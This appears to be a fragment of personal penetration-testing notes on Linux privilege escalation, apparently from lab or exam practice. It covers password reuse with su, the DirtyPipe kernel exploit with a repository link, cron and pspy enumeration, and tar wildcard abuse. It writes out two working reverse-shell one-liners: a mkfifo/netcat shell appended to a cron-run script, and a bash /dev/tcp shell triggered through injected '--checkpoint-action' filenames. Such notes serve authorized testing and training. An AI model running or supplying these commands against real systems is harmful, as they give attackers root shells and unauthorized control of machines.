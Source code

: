 ```jsx
su root
any password you can find
```

username reuse

```jsx
su patricks
patricks
```

### Kernel Version

Linux Kernel 5.8 < 5.16.11 - Local Privilege Escalation (DirtyPipe)

Fixed:`5.16.11, 5.15.25, 5.10.102`

```jsx
https://github.com/Al1ex/CVE-2022-0847
```

### Scheduled Tasks / Cron

```php
cat /etc/crontab
ls /etc/cron.*
grep "CRON" /var/log/syslog

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.118.1 1234 >/tmp/f" >> user_backups.sh
```

### Hidden Cron

```jsx
./pspy6 
timeout 60s pspy32s


verify directory permission (r/w)
re-run commands to test root permission
```

**Tar** `—checkpoint-action` arbitrary command execution.

> https://www.exploit-db.com/papers/33930
> 

```jsx
//CMD: UID=0     PID=32358  | /bin/bash -c cd /opt/admin && tar -zxf /tmp/backup.tar.gz * 
dave@fake:/opt/admin$ echo "/bin/bash -i >& /dev/tcp/192.168.1.1/8080 0>&1" > shell.sh
dave@fake:/opt/admin$ echo > "--checkpoint-action=exec=bash shell.sh"
dave@fake:/opt/admin$ echo > "--checkpoint=1"
```

Directly Executing bash file (writable)
